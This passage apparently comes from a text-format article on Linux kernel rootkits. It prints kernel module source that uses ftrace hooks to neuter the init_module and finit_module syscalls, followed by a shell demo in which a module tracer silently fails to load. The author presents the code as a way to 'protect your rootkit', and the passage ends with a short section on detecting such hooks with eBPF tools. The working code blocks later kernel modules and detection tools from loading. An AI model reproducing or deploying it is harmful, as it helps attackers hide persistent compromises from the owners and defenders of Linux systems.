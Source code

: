   static asmlinkage long hook_init_module(struct file *file,
                                          const char *uargs,
                                          unsigned long flags) {
      return 0;
  }

  static asmlinkage long hook_finit_module(struct file *file,
                                           const char *uargs,
                                           unsigned long flags) {
      return 0;
  }

  static struct ftrace_hook hooks[] = {
      HOOK("__x64_sys_init_module", hook_init_module, &hooked_init_module),
      HOOK("__x64_sys_finit_module", hook_finit_module, &hooked_finit_module),
  };

  static int __init insmod_init(void) {
      int err;

      err = fh_install_hooks(hooks, ARRAY_SIZE(hooks));
      if (err) {
          return err;
      }

      return 0;
  }

  static void __exit insmod_exit(void) {
      fh_remove_hooks(hooks, ARRAY_SIZE(hooks));
  }

  module_init(insmod_init);
  module_exit(insmod_exit);
╚════════════════════════════════════════════════════════════════════════════╝

The logic and functionality of the code above is actually very simple.

It works by replacing them with functions that return 0. Returning 0 indicates
success, but by doing so, it blocks the execution of the original logic needed
to load other LKMs, thus preventing the loading of new modules.

╔════════════════════════════════════════════════════════════════════════════╗
  dumbledore@infect:~$ sudo insmod insmod.ko && sudo dmesg -C
  dumbledore@infect:~$
  dumbledore@infect:~$ sudo insmod modtracer.ko
  dumbledore@infect:~$
  dumbledore@infect:~$ dmesg
  dumbledore@infect:~$ lsmod|grep modtracer
  dumbledore@infect:~$
╚════════════════════════════════════════════════════════════════════════════╝

And that's it, now you can implement this to protect your rootkit.

--[ 9 ]-----------------------[ The power of eBPF in detecting rootkits ]-----

In my opinion, detection of more modern LKM rootkits can be accomplished in a
few ways using features like eBPF. Projects such as Aqua Security's tracee and
bpf-hookdetect are the most effective in this regard, easily identifying the
syscalls that are being hooked. It is important to remember that these tools
are only aimed at detection, mitigation is still very complex and is an open
field of study. I believe that using eBPF to detect hooked syscalls is one of
the best approaches currently, remembering that eBPF can also be used to
create rootkits/hooked syscalls, and here are two tools that I consider very
useful in this detection aspect:
